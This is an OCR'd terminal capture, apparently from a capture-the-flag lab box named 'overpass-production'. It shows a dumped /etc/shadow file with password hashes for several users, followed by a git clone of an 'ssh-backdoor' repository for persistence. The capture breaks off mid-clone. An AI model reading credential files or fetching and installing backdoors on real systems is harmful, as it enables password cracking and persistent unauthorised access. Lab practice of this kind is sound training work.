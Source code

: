 ```bash
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
```
